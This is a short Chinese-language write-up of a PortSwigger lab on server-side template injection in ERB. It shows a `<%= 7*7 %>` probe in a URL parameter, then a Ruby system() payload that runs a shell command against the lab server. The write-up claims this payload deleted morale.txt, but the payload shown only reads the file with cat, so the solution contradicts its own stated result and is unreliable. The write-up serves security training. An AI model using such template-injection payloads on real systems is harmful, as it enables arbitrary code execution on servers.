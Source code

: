 ### 题目

```
Lab: Basic server-side template injection
PRACTITIONER

This lab is vulnerable to server-side template injection due to the unsafe construction of an ERB template.

To solve the lab, review the ERB documentation to find out how to execute arbitrary code, then delete the morale.txt file from Carlos's home directory.
```

### 答案

在 url 中 的 message 参数 的位置 把  `Unfortunately this product is out of stock` 提示信息 改为

```
<%= 7*7 %>
```

观察现象，发现 7*7 被解析成了 49

<img src=".\图片\Snipaste_2023-08-01_13-50-53.png" alt="Snipaste_2023-08-01_13-50-53" style="zoom:80%;" />

From the Ruby documentation, discover the `system()` method, which can be used to execute arbitrary operating system commands：

```
<%= system("cat /home/carlos/morale.txt") %>
```

ruby 语言的 执行命令函数，发现成功删除 `morale.txt` 文件
